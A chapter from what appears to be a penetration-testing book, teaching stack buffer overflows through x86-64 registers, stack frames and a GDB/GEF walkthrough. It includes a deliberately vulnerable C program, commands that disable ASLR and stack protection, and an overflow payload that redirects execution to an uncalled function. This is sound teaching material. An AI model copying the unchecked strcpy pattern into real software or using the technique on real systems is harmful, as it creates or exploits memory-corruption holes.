

# Buffer overflows

Custom exploitation to gain initial access covers a wide range of vulnerability types that can be split into infrastructure related vulnerabilities and vulnerabilities of applications, especially web applications. We are concerned here with particular vulnerabilities that allow for remote code execution (RCE). Of course, anything that leads to a disclosure of credentials that could then be used with remote access technologies would fall into the category already discussed above.

RCE vulnerabilities can occur where an application runs unchecked commands directly using a function like PHP's exec() command. A web application might want to do this because it is providing a systems administration function or doing something that relies on running an external application. Although doing this should be avoided because of the security risks involved, those risks can be mitigated through sanitization of inputs and implementing strong access controls. This is still a problem with applications however and so it is by no means an uncommon vulnerability.

In the previous chapter, you learned how to gain access to a machine by exploiting network services through intended means. In this chapter, we’ll explore a custom exploitation technique called a buffer overflow. This attack again manipulates the input to a program, sending more data than the program was expecting and causing it to fail in a way that allows us, as the attackers, to gain control of code execution. By crafting the input to overflow the buffer and then have program execution return to some point in our supplied buffer, code instructions can be sent to get the program to execute a command, including providing a reverse shell.

## How Buffer Overflows Work

Consider the simple "Hello World" program written in C

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int main(int argc, char **argv) {
  int numWorlds = 5;
  int i;
  char * helloWorld = (char*) malloc(13 * sizeof(char));
  strcpy(helloWorld, "Hello World ");
  for (i = 1; i <= numWorlds; i++) {
    printf(helloWorld);
    printf("%d \n", i);
  }
  free(helloWorld);
  return 0;
}
```

In this code at numWorlds is a variable that is set to the number 5. This variable is saved in a memory location called the "stack". At we are dynamically allocating 13 bytes of memory using the function malloc. This memory is allocated from the program's heap memory. The string "Hello World " is then copied into the allocated memory and this is printed out 5 times to produce the output:

```bash
┌─[✗]─[rin@parrot]─[~/develop]
└──╼ $gcc hello.c -o hello
┌─[rin@parrot]─[~/develop]
└──╼ $./hello
Hello World 1
Hello World 2
Hello World 3
Hello World 4
Hello World 5
```

Figure 3-8 shows the memory layout of the application after it has been loaded to run. Starting at the top, the stack of the program expands downwards. In the program there are three variables that are put on the stack, the integer i, the integer numWorlds and the char pointer helloWorld. When memory is allocated with the malloc statement, it is put on the heap. Although there are exploits that involve heap corruption, I am going to concentrate on the other form of exploitation which involves overflowing the stack.



Stacks operate on a last-in-first-out (LIFO) basis. Memory pointers or 8 byte values are "pushed" onto the stack and these values can only be retrieved by "popping" them off the stack in the reverse order that they were put on. Other than function variables, there is other information that is put on the stack when one function calls another. Before explaining this (let us push that onto the stack for the moment - we will pop it off later), I need to also talk about parameters are passed to functions in a 64 bit program.

When a program is compiled using a compiler like gcc, it generates machine code that will be executed by the CPU of the computer. The machine code is organized as individual instructions, called opcodes, that can move data in and out of memory, do comparisons, arithmetic and many other things. To help with this, the processor uses special memory locations called registers that can be used to store data for fast access and manipulation. On a 64 bit Intel processor, the registers are shown in the following table.

| Registers | Description |        |       |       |                                         |
| --------- | ----------- | ------ | ----- | ----- | --------------------------------------- |
| 64-bit    | 32-bit      | 16-bit | 8-bit | 8-bit |                                         |
| RAX       | EAX         | AX     | AH    | AL    | Accumulator                             |
| RBX       | EBX         | BX     | BH    | BL    | Base                                    |
| RCX       | ECX         | CX     | CH    | CL    | Counter                                 |
| RDX       | EDX         | DX     | DH    | DL    | Data (commonly extends the A register)  |
| RSI       | ESI         | SI     | N/A   | SIL   | Source index for string operations      |
| RDI       | EDI         | DI     | N/A   | DIL   | Destination index for string operations |
| RSP       | ESP         | SP     | N/A   | SPL   | Stack Pointer                           |
| RBP       | EBP         | BP     | N/A   | BPL   | Base Pointer (meant for stack frames)   |
| RIP       | EIP         | IP     |       |       | Instruction Pointer                     |
| R8        | R8D         | R8W    | N/A   | R8B   | General purpose                         |
| R9        | R9D         | R9W    | N/A   | R9B   | General purpose                         |
| R10       | R10D        | R10W   | N/A   | R10B  | General purpose                         |
| R11       | R11D        | R11W   | N/A   | R11B  | General purpose                         |
| R12       | R12D        | R12W   | N/A   | R12B  | General purpose                         |
| R13       | R13D        | R13W   | N/A   | R13B  | General purpose                         |
| R14       | R14D        | R14W   | N/A   | R14B  | General purpose                         |
| R15       | R15D        | R15W   | N/A   | R15B  | General purpose                         |

86-64 registers from OS Dev.org ([https://wiki.osdev.org/CPU\_Registers\_x86-64\\](https://wiki.osdev.org/CPU\_Registers\_x86-64/))

Certain of these registers are used to point to important structures in the program like the stack. The register rsp points to the top of the stack. As things are pushed onto the stack, RSP (Stack Pointer) is decreased by the size of whatever has been added (remember that the stack grows down in memory). rsp is used to add and remove things from the stack. rbp (Base Pointer) points to the bottom of the stack and is used as a reference for all of the data stored on the stack. Pointing to a stack variable involves taking the offset of that variable from the base pointer.

Registers are also used to carry out operations like adding two numbers. If we take the following lines of C

```c
int a = 2;
int b = 4;
int c = a + b;
```

This will generate the assembly

```c
0x0000000000001144 <+15>: mov DWORD PTR [rbp-0x4],0x2
0x000000000000114b <+22>: mov DWORD PTR [rbp-0x8],0x4
0x0000000000001152 <+29>: mov edx,DWORD PTR [rbp-0x4]
0x0000000000001155 <+32>: mov eax,DWORD PTR [rbp-0x8]
0x0000000000001158 <+35>: add eax,edx
0x000000000000115a <+37>: mov DWORD PTR [rbp-0xc],eax
```

Running through the lines of assembly:

1. The number 2 is moved (mov instruction) to the second 4 bytes of the stack which is the offset of the variable a.
2. The number 4 is moved to the third 4 bytes of the stack which is the offset of the variable b.
3. The value in variable a on the stack is moved to the register edx (which is the lower 32 bits of rdx.
4. The value in variable b on the stack is moved to the register eax (which is the lower 32 bits of rax, the accumulator register which is normally used in arithmetic operations)
5. The value in the register edx is added to the value in eax
6. The contents of the eax register are moved to the fourth 4 bytes of the stack which is the offset of the variable c.

This is just a brief introduction to assembly and there are many more instructions in the entire instruction set. This also refers to Intel x86 64 bit instructions and the registers and instructions are different for 32 bit processors and those made by other manufacturers like ARM.

### Function Calls

In C and other languages, code can be wrapped up as a function (sometimes called a sub-routine) which can take parameters and return a value. In order for code to jump from one place to a function, it puts the parameters that will be passed to the function into registers rdi,rsi,rdx,rcx,r8 and r9. If there are more than 6 parameters, the remaining ones are pushed onto the stack in reverse order. The call instruction is used to call the function and this instruction causes the return address of the next instruction to be executed when the call returns to be pushed onto the stack.

On entering the called function, the current base pointer in rbp is pushed onto the stack and then the current stack pointer rsp is moved into rbp. This sequence of instructions is called the function prologue. The function is executed and when leaving the function epilogue is run. This involves popping rbp, resetting the rsp to point to the top of the calling stack and then the ret instruction causes the return address to be popped and jumped to.

## Buffer Overflow

Now that we have basics covered, we can turn to a buffer overflow. Here is a simple program (in a source file bofexample.c) that is vulnerable to a buffer overflow.

```c
#include <string.h>
#include <stdio.h>
#include <stdlib.h>

void overflowed(){
  printf("*** Success! ***\n"); 
  exit(0);
}

void function(char *str){
  char buffer[80];
  strcpy(buffer,str);
}

void main(int argc, char *argv[])
{
  function(argv[1]);
  printf("XXX Try Again XXX");
}
```

In this program, the main function gets executed and is passed a single argument that can be accessed through argv\[1]. This argument is passed to the sub-routine "function" . In function, the argument is copied to a local buffer that is only 80 char long . This is where the buffer can be overflowed because the program has no checks for limiting the length of the input to this string copy function. There is another function overflowed that doesn't get called in the code of the program.

Our task is to try and get the program to execute the function overflowed. To start with we will "fuzz" the input to explore what happens when the buffer is overflowed. To do this, we are going to use a debugger called gdb to see what is going on internally, but we could have used input from the command line instead.

In preparation for this, we need to do a few things. The first is to disable the protections that are put in place to stop buffer overflows. Address Space Layout Randomization (ASLR) is a technique used by operating systems to randomize the addresses of code in a program either in the program itself or in libraries that might be loaded in when the program is run. To switch this off you need to set the content of the file /proc/sys/kernel/randomize\_va\_space to 0 (it will by default be set to 2).

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

The next thing you need to do is compile the C code in bofexample.c with flags that switch off other protections:

```bash
gcc -g -fno-stack-protector -no-pie -o bofexample \
bofexample.c
```

The -g flag makes sure that when the program is debugged it contains symbols and source code information so that you can see the lines of code as well as the assembly. -no-pie switches off the position independent executable which is what allows for address space randomization. Finally, the -fno-stack-protector removes code that the assembler adds to detect if the stack has been overwritten. We will see later on that it is possible to get around these mitigations but for the time being, we just want to keep things simple.

We are going to use an addition to gdb called GEF (GDB Enhanced Features). To install that, follow the instructions in the GEF manual[\[1\]](buffer-overflows.md).

To start, run the command:

```bash
gdb ./bofexample
```

We are going to stop the debugger when it starts the code in main:

```bash
gef➤ b main
Breakpoint 1 at 0x401199: file bofexample.c, line 19.
You can see the code at line 19 by using the list command:
gef➤ list main
13 char buffer[80];
14 strcpy(buffer,str);
15 }
16
17 void main(int argc, char *argv[])
18 {
19 function(argv[1]);
20 printf("XXX Try Again XXX\n");
21 }
22
gef➤
```

We will set another breakpoint (to stop the program at a certain point) at line 14 where the string passed into the program is copied into the buffer. To do this, use the command "b 14".

Now to run the program with some text by typing the command: run "hello world"

```bash
[ Legend: Modified register | Code | Heap | Stack | String ]
─────────────────────── registers ────
$rax : 0x000000000040118a → <main+0> push rbp
$rbx : 0x0
$rcx : 0x00007ffff7fa3718 → 0x00007ffff7fa5b00 → 
            0x0000000000000000
$rdx : 0x00007fffffffe050 → 0x00007fffffffe38c → 
            "SHELL=/bin/bash"
$rsp : 0x00007fffffffdf30 → 0x00007fffffffe038 → 
            0x00007fffffffe359 → "/home/rin/book/bofexample"
$rbp : 0x00007fffffffdf40 → 0x00000000004011c0 → 
            <__libc_csu_init+0> push r15
$rsi : 0x00007fffffffe038 → 0x00007fffffffe359 → 
            "/home/rin/book/bofexample"
$rdi : 0x2
$rip : 0x0000000000401199 → <main+15> mov rax, 
               QWORD PTR [rbp-0x10]
$r8 : 0x0
$r9 : 0x00007ffff7fe2180 → <_dl_fini+0> push rbp
$r10 : 0x0
$r11 : 0xc2
$r12 : 0x0000000000401060 → <_start+0> xor ebp, ebp
$r13 : 0x0
$r14 : 0x0
$r15 : 0x0
$eflags: [zero carry PARITY adjust sign trap INTERRUPT 
  direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 
  $fs: 0x0000 $gs: 0x0000
────────────────────── stack ────
0x00007fffffffdf30│+0x0000: 0x00007fffffffe038 → 0x00007fffffffe359 → 
            "/home/rin/book/bofexample" ← $rsp
0x00007fffffffdf38│+0x0008: 0x0000000200000000
0x00007fffffffdf40│+0x0010: 0x00000000004011c0 → 
            <__libc_csu_init+0> push r15 ← $rbp
0x00007fffffffdf48│+0x0018: 0x00007ffff7e0bcca → 
            <__libc_start_main+234> mov edi, eax
0x00007fffffffdf50│+0x0020: 0x00007fffffffe038 → 
            0x00007fffffffe359 → "/home/rin/book/bofexample"
0x00007fffffffdf58│+0x0028: 0x0000000200000000
0x00007fffffffdf60│+0x0030: 0x000000000040118a → 
            <main+0> push rbp
0x00007fffffffdf68│+0x0038: 0x00007ffff7e0b7d9 → 
            <init_cacheinfo+297> mov rbp, rax
───────────────── code:x86:64 ────
 0x40118e <main+4> sub rsp, 0x10
 0x401192 <main+8> mov DWORD PTR [rbp-0x4], edi
 0x401195 <main+11> mov QWORD PTR [rbp-0x10], rsi
 → 0x401199 <main+15> mov rax, QWORD PTR [rbp-0x10]
 0x40119d <main+19> add rax, 0x8
 0x4011a1 <main+23> mov rax, QWORD PTR [rax]
 0x4011a4 <main+26> mov rdi, rax
 0x4011a7 <main+29> call 0x401168 <function>
 0x4011ac <main+34> lea rdi, [rip+0xe77] # 0x40202a
─────────────── source:bofexample.c+19 ────
 14 strcpy(buffer,str);
 15 }
 16
 17 void main(int argc, char *argv[])
 18 {
 // argv=0x00007fffffffdf30 → [...] → "/home/rin/book/bofexample"
 → 19 function(argv[1]);
 20 printf("XXX Try again XXX\n");
 21 }
 22
───────────────────────── threads ────
[#0] Id 1, Name: "bofexample", stopped 0x401199 in main (), reason: BREAKPOINT
─────────────────────────── trace ────
[#0] 0x401199 → main(argc=0x2, argv=0x7fffffffe038)
───────────────────────────────────────────────
gef➤
```

After the code breaks at line 19, the current state of the registers and stack are displayed along with the assembly and source code. At the top of the output , the contents of the registers is listed. The specific register we are interested in is rsp which points to the top of the stack and when a function returns, will point to the return address we are hoping to overwite. The contents of the stack are shown at . The assembly is shown below that and finally the source code.

We can step into the function with the single one single instruction command, abbreviated to si. Repeating this, the program will enter the function and eventually get to the assembly instruction to call the strcpy function. This function is being called with the address of the buffer and the address of the string "hello world"

```c
12 void function(char *str){
 13 char buffer[80];
 // str=0x00007fffffffdec8 →[...]→"hello world", 
 //   buffer=0x00007fffffffded0 → 0x0000000000000000
 → 14 strcpy(buffer,str);
 15 }
```

Typing the next command n, will execute the strcpy and because the program is functioning correctly, it will return to main, print "XXX Try again XXX" and then exit.

We will now run the program again, but this time with a buffer that is larger than 80 bytes. To do this, we can use the command "pattern create 120" which will print a sequence of characters that is a combination of non-repeating combinations of letters. Using this, if the program crashes, we can identify at which specific characters caused the crash and what their offset in the input was. The first step is creating the pattern:

```bash
gef➤ pattern create 120
[+] Generating a pattern of 120 bytes
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaai
aaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaa
[+] Saved as '$_gef0'
gef➤
```

And then running the program with that pattern of characters as input. Stepping through the instructions until we get to the strcpy statement and then using the next command, we return to the assembly

```bash
→ 0x401187 <function+31> nop
  0x401188 <function+32> leave
  0x401189 <function+33> ret
```

The first si will execute nop which is a no operation instruction, it does nothing. The leave instruction resets the rsp to the base pointer in rbp and then pops rbp. After the leave instruction, rsp contains the return address the program will try and jump to on executing the ret.

However, the rsp now contains an address that points to the string "laaaaaaamaaaaaaanaaaaaaaoaaaaaaa". If we search for the offset of this string, we find out that it is located at byte 88.

```bash
gef➤ pattern offset laaaaaaamaaaaaaanaaaaaaaoaaaaaaa
[+] Searching 'laaaaaaamaaaaaaanaaaaaaaoaaaaaaa'
[+] Found at offset 88 (big-endian search)
gef➤
```

Doing another si will cause the program to crash with a SIGSEGV, a segmentation fault.

The good news is that we are able to control the return address simply by adding the address we want the program to jump to by adding that address at offset 88 in the input. What we want to do is to jump to the address of the function overflowed. If we type disassemble overflowed, this will show the assembly for the function with the addresses of each instruction.

```bash
gef➤ disassemble overflowed
Dump of assembler code for function overflowed:
 0x0000000000401142 <+0>: push rbp
 0x0000000000401143 <+1>: mov rbp,rsp
 0x0000000000401146 <+4>: lea rdi,[rip+0xeb7] # 0x402004
 0x000000000040114d <+11>: call 0x401040 <puts@plt>
 0x0000000000401152 <+16>: mov edi,0x0
 0x0000000000401157 <+21>: call 0x401050 <exit@plt>
End of assembler dump.
gef➤
```

The first instruction is at the address 0x401142 (ignoring the leading zeros). So we can construct an input string of 88 'A's and then the address \x42\x11\x40. The address is in reverse order because the machine is "little endian" which means that addresses are listed with their least significant bytes first. The input can be generated using the command:

```bash
r $(python -c "print(('A'*88) + '\x42\x11\x40')")
```

We can now repeat the process of stepping through the instructions until the strcpy. This time, after single stepping over the leave instruction, rsp is pointing to the function overflowed

```bash
0x00007fffffffded8│+0x0000: 0x0000000000401142 → <overflowed+0> push rbp ← $rsp
```

Doing another si will start the execution of overflowed.

The program can also be run from the command line with:

```bash
┌─[rin@parrot]─[~/book]
└──╼ $./bofexample $(python -c "print(('A'*88) + '\x42\x11\x40')")
*** Success! ***
┌─[rin@parrot]─[~/book]
└──╼ $
```

Obviously, this is a contrived example and things are not quite so simple when gaining control of a real application. For a start, the objective is to run code that gives us a shell or executes other commands the attacker supplies like launching a specific program or run a malware implant. In order to see how this is done, we can look at a Hack The Box machine Ellingson to show how to do what is called Return Oriented Programming (ROP) as a means of getting a buffer overflow to execute code that the attacker controls.
